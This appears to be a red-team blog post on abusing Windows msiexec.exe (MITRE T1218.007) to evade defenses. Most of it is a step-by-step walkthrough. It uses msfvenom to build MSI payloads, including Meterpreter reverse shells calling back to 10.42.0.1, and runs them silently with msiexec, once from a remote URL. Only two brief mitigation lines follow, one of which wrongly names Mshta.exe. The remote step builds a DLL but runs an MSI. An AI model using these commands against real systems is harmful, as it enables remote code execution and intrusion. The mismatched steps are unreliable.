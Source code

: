 ```yaml
---
title: MSIEXEC
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, msiexec]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.007`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSIEXEC

***Msiexec.exe*** Is a command-line utility that Provides the means to install, modify, and perform operations on Windows Installer from the command line.Adversaries may abuse msiexec.exe to proxy execution of malicious payloads.

# Exploitations

## Invoke Calculator

Generate payload using msfvenom, transfer the payload to your windows machine, then execute the below command to invoke calculator.

*generating payload*

> `msfvenom -p windows/exec CMD=calc.exe -f msi > [file_name.msi]`

```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/exec CMD=calc.exe -f msi > cmd.msi
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of msi file: 159744 bytes

```

Command
> `msiexec /q /i "[local_msi_file]"`

*executing payload to invoke calculator*

```batch
msiexec /q /i "C:\Users\IEUser\Desktop\calc.msi"
```

![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexeccalc.png)

## Execute Local MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, transfer it to windows machine, setup your metasploit listener, then execute the below command.

*generating meterpreter payload*

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f msi -o [file_name.msi]`

```bash

┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f msi > exploit.msi
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
```
Command
> `msiexec /q /i "[local_msi_file]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "C:\Users\IEUser\Desktop\rev.msi"
```
![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexecwin.png)

*setting metasploit listener, getting reverse shell*

![msiexecmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

## Execute Remote MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, host it on your server i.e `python -m http.server`, setup your metasploit listener, then execute the below command.

*generating payload*
```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f dll > rev.dll                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes

```
Command
> `msiexec /q /i "[local_msi_file]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "http://10.42.0.1/rev.msi"
```
# Mitigations

- Disable or Remove Mshta.exe.
- Restrict execution of Msiexec.exe to privileged accounts or groups.

# References

- [https://attack.mitre.org/techniques/T1218/007/](https://attack.mitre.org/techniques/T1218/007/)
- [https://attack.mitre.org/mitigations/M1042/](https://attack.mitre.org/mitigations/M1042/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
